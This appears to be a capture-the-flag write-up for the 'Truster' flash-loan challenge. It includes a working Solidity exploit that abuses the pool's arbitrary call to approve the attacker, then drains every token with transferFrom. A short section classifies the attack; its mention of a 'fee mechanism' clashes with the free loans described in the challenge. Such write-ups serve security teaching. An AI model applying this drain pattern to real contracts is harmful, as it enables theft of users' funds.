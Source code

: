 # Truster

## Challenge

More and more lending pools are offering flashloans. In this case, a new pool has launched that is offering flashloans of DVT tokens for free.

The pool holds 1 million DVT tokens. You have nothing.

To pass this challenge, rescue all funds in the pool executing a single transaction. Deposit the funds into the designated recovery account.

## Solution

I passed token address as the target address and the approve function for the arbitrary function call,after which I used the transferFrom function to send the tokens to the recovery account.

```
contract Attacker {
    uint256 constant TOKENS_IN_POOL = 1_000_000e18;

    constructor(TrusterLenderPool pool,address _token,address recovery){
        bytes memory data = abi.encodeWithSignature("approve(address,uint256)",address(this),TOKENS_IN_POOL);
        pool.flashLoan(0,address(this), _token,data);
        DamnValuableToken token = DamnValuableToken(_token);
        token.transferFrom(address(pool),recovery,TOKENS_IN_POOL);
    }
}
```

![Alt text](images/truster.png)

## Attack Classification

### Economic Exploit
The attack exploits the fee mechanism to drain funds economically by making an arbitrary call.

### DoS (Denial of Service)
Draining the pool,denies other users who might want to access the flashloan from getting any tokens.

### Access Control Misconfiguration
The root cause of the vulnerability lies in poor access control: the pool delegates sensitive operations (arbitrary function calls) to untrusted borrowers.

